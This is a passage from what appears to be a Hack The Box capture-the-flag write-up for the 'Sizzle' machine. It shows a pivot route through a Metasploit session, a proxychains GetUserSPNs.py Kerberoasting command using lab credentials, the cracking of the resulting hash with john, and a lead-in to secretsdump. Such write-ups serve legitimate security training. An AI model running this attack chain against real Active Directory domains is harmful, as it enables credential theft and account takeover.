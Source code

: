 ![](/images/hackthebox/sizzle/40.png)
<br> `route add 10.10.10.0 255.255.255.0 1` this adds a route of the whole internal subnet where `1` is the session number.
<br> Now we are ready. Let's kerberoast !
`proxychains GetUserSPNs.py -request -dc-ip 10.10.10.103 HTB.LOCAL/amanda:Ashare1972`
![](/images/hackthebox/sizzle/41.png)
<br> User `mrlky` was kerberoastable and we got a hash, let's pass it to `john` :
![](/images/hackthebox/sizzle/42.png)
<br> Password is `Football#7`, now we can use `secretdump.py` again and do the same thing we did before :